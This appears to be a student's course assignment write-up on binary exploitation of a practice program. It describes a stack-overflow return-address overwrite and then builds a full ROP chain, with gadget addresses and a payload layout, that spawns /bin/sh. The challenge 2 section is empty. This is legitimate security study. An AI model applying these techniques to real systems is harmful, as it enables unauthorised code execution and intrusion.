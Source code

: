 # assignment 5

Luigi Cussigh
2023148006

## challege 0

i generated characters to pad the stack frame with 'A's till we get to the return address. then i appended characters
that overwrite the return address with \x50\x11\x40\x00\x00\x00\x00\x00\x0a which is the address of a function that calls
execve("/bin/sh", NULL, NULL)

## challenge 1

the decompiled code of the vulnerable function looks something like:

__int64 sub_401510()
{
  int v0; // ebx
  char nptr[272]; // [rsp+8h] [rbp-110h] BYREF

  puts("Enter id:");
  gets(nptr);
  v0 = strtol(nptr, 0, 10);
  puts("Enter password:");
  return gets(&nptr[16 * v0 + 8]);
}

also, there's a null terminated string "/bin/sh" at address 0x402004:

``` plaintext
Contents of section .rodata:
 402000 01000200 2f62696e 2f736800 25730025  ..../bin/sh.%s.%
 402010 700a005b 52455355 4c545d20 4e6f7420  p..[RESULT] Not 
 402020 6578706c 6f697465 64203a28 20457869  exploited :( Exi
 402030 74696e67 20736166 656c792e 0a00456e  ting safely...En
 402040 74657220 69643a00 456e7465 72207061  ter id:.Enter pa
 402050 7373776f 72643a00                    ssword:.        
```

using ROPgadget we find a syscall gadget:

ROPgadget --binary ./exploitme | grep syscall

0x000000000040134c : syscall

also we need to set rdi, rsi, rdx, rax using pop gadgets

ROPgadget --binary ./exploitme | grep pop (register)

rdi:
(no pop for rdi, we'll have to get creative..)

rsi:
0x00000000004015e9 : pop rsi ; ret

rdx:
0x00000000004012e8 : pop rdx ; ret

rax:
(no pop for rax, we'll have to get creative..)

since we dont have rdi and rax pops (the most important ones...) we'll have to substitute:

ROPgadget --binary ./exploitme | grep "mov rdi"

rdi: // compound_gadget_0
0x0000000000401363 : mov rdi, rsi ; xor rsi, rsi ; xor rdx, rdx ; syscall

rax:
0x0000000000401230 : mov rax, rsi ; ret

we can run:

pop rsi // store 59 (0x3b) on higher address
mov rax, rsi; ret
pop rsi // store pointer to /bin/sh on higher address
mov rdi, rsi ; xor rsi, rsi ; xor rdx, rdx ; syscall // the xor's set the registers to 0 which is we want to do anyway

{} - ranges of random bytes
() - words that need to be reversed byte by byte

we'll just pass the first function:
"0A"{272 - 2 bytes of random stuff}(00000000004015e9)(000000000000003b)(0000000000401230)(00000000004015e9)(0000000000402004)(0000000000401363)'\n'
  |        |                                           |                                                     |
  |        compensate for "0A"                         value of rax                                          address to "/bin/sh"
  to escape strtol

## challenge 2

